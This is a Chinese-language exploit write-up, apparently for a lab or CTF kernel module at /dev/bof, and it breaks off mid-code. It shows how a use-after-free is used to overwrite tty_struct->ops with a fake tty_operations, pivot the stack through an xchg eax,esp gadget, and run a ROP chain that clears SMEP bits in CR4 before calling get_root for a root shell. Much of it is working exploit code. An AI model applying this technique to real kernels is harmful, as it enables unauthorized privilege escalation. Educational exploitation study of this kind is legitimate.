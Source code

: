 &nbsp;&nbsp;&nbsp;&nbsp;<font size=2>漏洞很丰盛，无限制的堆溢出和UAF，此处我们的利用技巧是**修改tty_struct中的ops成员**来劫持流程，**ops又是一个tty_operations类型**的结构体，其中的**成员ioctl**就存放着ioctl函数的地址，我们的目标就是利用UAF修改存放着tty_struct数据的堆块，伪造ioctl函数，然后你懂的，就跟通过IO_FILE劫持差不多。</font></br>

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>linux/tty.h里有tty_struct的定义，也可以在gdb里面用p &((struct tty_struct *)0)->ops命令来看ops的偏移，可以得到是0x18：</font></br>

```C
struct tty_struct {
        int     magic;
        struct kref kref;
        struct device *dev;
        struct tty_driver *driver;
        const struct tty_operations *ops;
        int index;
//......
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>通过ioctl劫持了流程后有一个trick就是此时rax=rip，如果在这个时候执行xchg eax, esp之后就是一个栈反转，所以我们要伪造一个栈，在我们伪造的栈上放上一系列ROP指令，然后栈反转后就会按照我们的期望执行最终得到shell了，所以接下来就是流程：</font></br>

**伪造tty_operations**

```C
    unsigned long mmap_base = xchg_eax_esp & 0xffffffff;

    struct tty_operations *fake_tty_operations = (struct tty_operations *)malloc(sizeof(struct tty_operations));

    memset(fake_tty_operations, 0, sizeof(struct tty_operations));
    fake_tty_operations->ioctl = (unsigned long) xchg_eax_esp;
    fake_tty_operations->close = (unsigned long)xchg_eax_esp;

```

**伪造栈**

```C
    printf("mmap_addr: %p\n", mmap(mmap_base, 0x30000, 7, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0));
    unsigned long rop_chain[] = {
        pop_rdi_ret,
        0x6f0,
        rdi_to_cr4, // cr4 = 0x6f0
        mmap_base,
        (unsigned long)get_root
    };

    memcpy(mmap_base, rop_chain, sizeof(rop_chain));
```

**利用UAF劫持流程**

```C
    for (int i = 0; i < 10; ++i)
    {
        fd = open("/dev/bof", O_RDWR);
        if (fd == -1) {
            printf("open bof device failed!\n");
            return -1;
        }
        fds[i] = fd;
    }

    printf("%p\n", fake_tty_operations);
    struct param p;
    p.len = 0x2e0;
    p.buf = malloc(p.len);

    for (int i = 0; i < 10; ++i)
```